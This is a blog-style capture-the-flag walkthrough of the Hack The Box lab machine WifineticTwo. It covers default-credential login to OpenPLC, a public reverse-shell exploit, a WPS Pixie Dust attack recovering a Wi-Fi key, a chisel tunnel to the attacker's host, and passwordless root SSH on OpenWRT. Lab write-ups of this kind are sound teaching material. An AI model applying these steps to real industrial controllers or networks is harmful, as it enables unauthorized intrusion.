 ```yaml
---
layout: post
title: "HTB WifineticTwo"
tags: Wifi OpenWRT Wireless
---
```



![image](/images/16c5889acc1ca177c6b343c76bebcdaf.webp){:height="150px" style="float:right; margin: 10px" }
WifineticTwo is a Medium rated linux machine that presents an OpenPLC webserver, accessible through default credentials. This access can then be leveraged to perform remote code execution, granting initial access to the system. After establishing a foothold, a WPS Pixie Dust attack can be performed to obtain the Wi-Fi password for the associated Access point. Gaining access to the wireless network allows us to target the router running OpenWRT, where access to the web interface is used to obtain root privileges.
<!--more-->
## Recon
The first step of any HTB machine is always an nmap scan, allowing us to see what ports and services are open, and determine both the next steps in our enumeration and the likely vector of our attack:
```
└─$ nmap -sC -sV -p- --min-rate=1000 -T4 10.10.11.7
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-09-19 15:43 AEST
Nmap scan report for wifinetictwo.htb (10.10.11.7)
Host is up (0.062s latency).                                                                                                                                                                                      
Not shown: 65533 closed tcp ports (reset)                                                                
PORT     STATE SERVICE    VERSION                                                                        
22/tcp   open  ssh        OpenSSH 8.2p1 Ubuntu 4ubuntu0.11 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:                                                                                           
|   3072 48:ad:d5:b8:3a:9f:bc:be:f7:e8:20:1e:f6:bf:de:ae (RSA)            
|   256 b7:89:6c:0b:20:ed:49:b2:c1:86:7c:29:92:74:1c:1f (ECDSA)           
|_  256 18:cd:9d:08:a6:21:a8:b8:b6:f7:9f:8d:40:51:54:fb (ED25519)         
8080/tcp open  http-proxy Werkzeug/1.0.1 Python/2.7.18                    
|_http-server-header: Werkzeug/1.0.1 Python/2.7.18                                                       
| http-title: Site doesn't have a title (text/html; charset=utf-8).       
|_Requested resource was http://wifinetictwo.htb:8080/login
```
We see two ports open; TCP port 22 for SSH (The version fingerprint indicating that this is an Ubuntu machine), and TCP port 8080 running a HTTP webserver with python Werkzeug. With only these two ports to go off of, our next logical step will be to explore the webserver.

## Getting a shell

Visiting the website at `10.10.11.7:8080` presents us with an openPLC login page. OpenPLC is a suite of tools for creating and running Programmable Logic Controllers, or PLCs.

![image](/images/WifineticTwo/openPLClogin.png){:style="margin:0 auto; display:block;"}

A quick google search lets us find this [page](https://autonomylogic.com/docs/2-1-openplc-runtime-overview/), which reveals that the default login credentials are `openplc : openplc`.
We submit these credentials through the login form and successfully authenticate, giving us access to the web interface:

![image](/images/WifineticTwo/openPLCinterface.png){:style="margin:0 auto; display:block;"}


Looking around the OpenPLC interface, we see a "Programs" section, which allows a user to upload, compile, and run C code. This seems like it could easily be used for remote code execution, so we take a quick look around online for existing exploits and find this [github PoC](https://github.com/thewhiteh4t/cve-2021-31630/blob/main/cve_2021_31630.py):

![image](/images/WifineticTwo/GithubExploit.png){:style="margin:0 auto; display:block;"}

The exploit works by uploading a reverse shell written in C to the "Programs" section of openplc, then compiling it and running it.
We clone the exploit, set up a netcat listener, and run it:

![image](/images/WifineticTwo/OpenPLCexploit.png){:style="margin:0 auto; display:block;"}

The exploit works! And since we caught a root shell, we're most likely running in a container, and we'll need to find our root flag on the host.
While we're here, we can grab the user.txt file from `/root/user.txt`.

## Privilege Escalation
We transfer linpeas to the machine and run it, confirming our suspicions of being contained:

![image](/images/WifineticTwo/linpeasContainer.png){:style="margin:0 auto; display:block;"}

Linpeas also reveals that we have a wireless interface on the machine, wlan0 (which we could've found ourselves by running `ip a`):

![image](/images/WifineticTwo/linpeasInterfaces.png){:style="margin:0 auto; display:block;"}

We run `iw dev wlan0 scan` to scan for wireless access points on the wlan0 interface:

![image](/images/WifineticTwo/iwdevscan.png){:style="margin:0 auto; display:block;"}


We see a device with a BSSID of `02:00:00:00:01:00` and an SSID of `plcrouter`. Interestingly, the output also shows that WPS is supported.
WPS stands for Wifi-Protected Setup, and it's vulnerable to both online and offline brute force attacks that enable an attacker to obtain the PSK, or pre-shared key.
WPS allows devices to join a Wi-Fi network without using the network's PSK, usually by using a push-button or a static eight-digit PIN code provided by the access point.

We'll use a python tool, OneShot.py, to perform a pixie dust attack on the access point. 
The pixie dust attack takes advantage of the way the nonces are generated for the WPS exchange; for the exchange to be secure, the nonces need to be random, but they are instead derived from the hash of the PSK. This allows us to figure out what the nonces are, and then use the rest of the information collected during the exchange to figure out the PSK.
After grabbing OneShot.py from https://github.com/AAlx0451/OneShot and transferring it to the machine, we can run the pixie dust attack:

![image](/images/WifineticTwo/OneShot.png){:style="margin:0 auto; display:block;"}

The attack works, and we get the PSK of `NoWWEDoKnowWhaTisReal123!`.

Now that we have the PSK for the AP, we can connect to it using our wireless interface.
First we need to generate a conf file using `wpa_passphrase`, and then we can connect using `wpa_supplicant`:

`wpa_passphrase plcrouter 'NoWWEDoKnowWhaTisReal123!' > wpa.conf`

`wpa_supplicant -B -i wlan0 -c ~/wpa.conf`

![image](/images/WifineticTwo/connectingToAP.png){:style="margin:0 auto; display:block;"}

Now that we're connected, we can run `arp -an` to view the arp cache and see the IP address of the router:

![image](/images/WifineticTwo/arp.png){:style="margin:0 auto; display:block;"}

The address is 192.168.1.1. We use netcat to do a quick scan of common ports and see what's open:

`nc -vz 192.168.1.1 21 22 80 443`

![image](/images/WifineticTwo/NetCatScan.png){:style="margin:0 auto; display:block;"}

We see that port 22, 80, and 443 are open. We use curl to take a quick look at the web page:

![image](/images/WifineticTwo/curl.png){:style="margin:0 auto; display:block;"}

In the curl response, we see `luCI Lua Configuration Interface`. A quick search online reveals that this is related to OpenWRT, an open source operating system designed for embedded devices to route network traffic. We can assume that this is what the router we connected to is running.

To get proper access to the webpage, we decide to use chisel to port forward port 80:

`sudo ./chisel server -p 8000 -reverse`

![image](/images/WifineticTwo/chiselServer.png){:style="margin:0 auto; display:block;"}


`./chisel client 10.10.14.15:8000 R:192.168.1.1:80 &`

![image](/images/WifineticTwo/chiselClient.png){:style="margin:0 auto; display:block;"}

Visiting localhost in our browser presents us with a login interface for luci, with a username of root already entered into the form:

![image](/images/WifineticTwo/luciLogin.png){:style="margin:0 auto; display:block;"}

Looking at the [OpenWRT documentation](https://openwrt.org/docs/guide-quick-start/walkthrough_login) reveals that the root user is configured to have no password set in a default installation, so we're able to login with the username `root` and no password.
Taking a brief look around the administration panel, we find something interesting in `System > Administration`. Under the SSH access tab, we see that ssh access is enabled, and root logins with password are also enabled. 

![image](/images/WifineticTwo/sshAccessOpenWRT.png){:style="margin:0 auto; display:block;"}

Considering that documentation revealed that there is no password set for root by default, this could mean that we're able to ssh in to the router as root with no password. We give it a try from our compromised container:

`ssh root@192.168.1.1`

![image](/images/WifineticTwo/SSHandROOT.png){:style="margin:0 auto; display:block;"}

We successfully get into the router, letting us grab the root flag and complete the box :).
